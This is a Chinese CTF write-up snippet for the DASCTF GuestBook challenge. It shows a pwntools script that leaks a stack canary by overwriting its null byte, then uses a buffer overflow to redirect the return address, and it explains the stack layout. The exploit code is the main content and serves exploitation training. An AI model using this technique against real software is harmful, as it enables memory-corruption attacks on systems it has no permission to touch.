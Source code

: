 


## 技巧类

### 泄露canary

```python
from pwn import *
p = process('./GuestBook')
#p = remote('xxxxxx',8888)
#gdb.attach(p)
elf = ELF('./GuestBook')
context(os="linux",arch="amd64",log_level='debug')

p.sendafter(b'name',0x19*b'a')#0x18+0x1,覆盖canary最低一位的00
p.recvuntil(0x19*b'a')#返回的为buf中的内容，从垃圾数据结束之后开始接收
data = u64(p.recv(7).rjust(8,b'\x00'))#接收canary的前七个字节，再从右边用00补充到8个字节
data+=1#修改canary最低字节的值为01
print("can"+str(hex(data)))

payload = b'a'*152 + p64(data) + b'a'*8 + p64(0x4012c3)#第一次将canary后面的rbp和返回地址布置好，同时布置canary的前七位
payload1 = b'a'*120 +p64(data-1)#第二次溢出将canary的01还原为00，使其能够通过系统检查

p.sendlineafter(b'leave(MAX 4)',str(2))#循环两次
p.sendline(payload)
p.sendline(payload1)
p.interactive()
```

泄露canary的主要思路就是将栈空间覆盖，同时覆盖canary的最低一个字节00，然后去接收返回的数据（前提是由printf或puts函数将变量中的数据输出，例如我们要泄露的是buf中的canary（事实上一旦开启canary，所有变量都会被加上canary），那么伪代码中一定要有puts(buf)之类的输出函数来输出canary的地址。

第二步就是将获取到的canary添加到payload中，因为函数在返回的时候会检测canary的值，如果不相同就会崩溃。所以我们应该构造出形如------b'a'*xxx + p64(canary) + b'a'*8 + p64(retaddr)-----的payload。

==注：canary在rbp的下方（一般都是紧挨着rbp，但出题人可能会改变其位置）结构一般如下：==

-----------------------------------------------

retaddr（这是高地址）

---------------------------------

rbp

-----------------------------------

canary

-------------------------------------------------------

buf（低地址）

-----------------------------------------

题目来源：DASCTF（GuestBook）
